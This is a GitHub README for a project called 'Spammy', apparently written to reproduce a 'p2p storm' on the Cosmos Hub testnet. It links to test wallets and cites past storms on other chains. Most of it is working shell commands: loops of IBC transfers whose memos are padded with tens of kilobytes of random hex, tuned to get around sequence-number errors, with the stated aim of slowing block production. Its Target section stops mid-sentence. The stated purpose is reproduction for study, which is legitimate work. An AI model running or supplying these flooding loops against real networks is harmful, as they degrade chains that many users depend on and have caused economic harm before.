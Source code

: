 # Spammy

## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start
```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
 do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i 
done
```



 Hub testnet blcok range 3881725 to 3881733

